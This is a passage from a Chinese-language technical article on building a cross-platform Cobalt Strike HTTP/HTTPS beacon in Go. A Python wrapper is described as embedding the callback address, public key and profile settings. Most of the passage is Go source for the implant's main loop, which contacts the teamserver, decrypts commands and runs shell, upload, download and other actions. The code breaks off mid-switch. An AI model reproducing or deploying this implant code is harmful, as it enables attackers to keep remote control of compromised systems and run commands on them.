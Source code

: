   

 **0x02 跨平台http/https Beacon**

  

根据上面我们对cs的http/https
beacon的整个通信过程的研究，完全能自己编写一个跨平台的beacon，这里我们选择了golang作为开发语言，虽然编译之后很大，但是跨平台的性很好。  

  

但是我们想将Beacon的回连地址、加密的公钥以及profile的配置都编译到golang程序中，这样的话每次生成跨平台Beacon的时候都需要修改源代码然后再编译，所以我们在golang源码外层再进行了一次python封装，它的作用如下：

  

1\. 解析profile，并将相应的值填入golang源码中。

2\. 根据.cobaltstrike.beacon_keys计算公钥，并填入golang源代码中。

3\. 实现golang项目的交叉编译。具体的流程图设计如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134457.png)

  

实现的部分代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func main() {    //初始化，包括：生成随机的beaconid、生成随机的global key(aes+hashmac)、创建get和post的url以及对应的header    config.InitC2Profile()    //组装和封装源数据，并循环向ts发送，直到成功    ok := packet.FirstBlood()    if ok {        for {            time.Sleep(time.Duration(config.Sleep) * time.Millisecond)//sleep时间            //获取命令数据            respBytes := packet.PullCommand()            if respBytes != nil {                totalLen := len(respBytes)                if totalLen > config.GetAppend + config.GetPrepend {                    //删除prepend                    if config.GetPrepend !=0 {                        respBytes = respBytes[config.GetPrepend:]                    }                    //删除append                    if config.GetAppend !=0 {                        respBytes = respBytes[:len(respBytes) - config.GetAppend]                    }                    //decode base64                    decryptBytes, base64Err := base64.StdEncoding.DecodeString(string(respBytes))                    if base64Err != nil {                        fmt.Println("Exception: ",base64Err.Error())                        continue                    }                    respBytes = decryptBytes  
                        //去除HashMac                    restBytes := respBytes[:len(respBytes)-crypt.HmacHashLen]                    //aes解密                    decrypted,decryptErr := packet.DecryptPacket(restBytes)                      if decryptErr != nil {                        fmt.Println("Exception: ",decryptErr.Error())                        continue                    }  
                        //读取命令数据                    lenBytes := decrypted[4:8]                    packetLen := util.ReadInt(lenBytes)                    decryptedBuf := bytes.NewBuffer(decrypted[8:])                    for {                        if packetLen <= 0 {                            break                        }                        //解析命令数据                        cmdType, cmdBuf, parseErr := packet.ParsePacket(decryptedBuf, &packetLen)                        if parseErr == nil{                            if cmdBuf != nil {                                var finalPacket []byte = nil                                //执行对应的命令                                switch cmdType {                                case config.CMD_TYPE_SHELL:                                    go command.Shell(cmdBuf)  
                                    case config.CMD_TYPE_UPLOAD_START: //10                                    go command.Upload(cmdBuf)  
                                    case config.CMD_TYPE_UPLOAD_LOOP: //67                                    go command.Upload(cmdBuf)  
                                    case config.CMD_TYPE_DOWNLOAD: //11                                    go command.Download(cmdBuf)  
                                    case config.CMD_TYPE_CD: //5                                    go command.CD(cmdBuf)  
                                    case config.CMD_TYPE_SLEEP: //4                                    sleep := util.ReadInt(cmdBuf[:4])                                    config.Sleep = int(sleep)  
                                    case config.CMD_TYPE_PWD: //39                                    go command.PWD()  
                                    case config.CMD_TYPE_EXIT:                                    go command.Exit()  
                                    case config.CMD_TYPE_PORTFWD:                                    finalPacket = packet.MakePacket(13,[]byte("Please use shell rportfwd command"))                                    packet.PushResult(finalPacket)  